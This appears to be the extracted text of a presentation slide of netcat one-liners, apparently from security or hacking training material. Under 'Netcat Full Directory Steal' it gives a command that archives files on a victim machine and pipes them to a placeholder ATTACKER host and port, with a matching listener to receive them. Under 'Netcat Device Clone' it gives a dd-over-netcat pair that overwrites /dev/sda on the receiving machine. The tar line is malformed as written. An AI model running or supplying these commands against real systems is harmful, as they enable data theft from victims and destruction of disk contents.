

Netcat Full Directory Steal

On Victim: 	 tar –cvf | bzip –z | nc ATTACKER PORT
On Attacker:	 nc –lp PORT | bzip –d | tar –xvf -

Netcat Device Clone
On Machine 1: 	dd if=/dev/sda | nc –lp PORT
On Machine 2: 	nc MACHINE_1 PORT | dd of=/dev/sda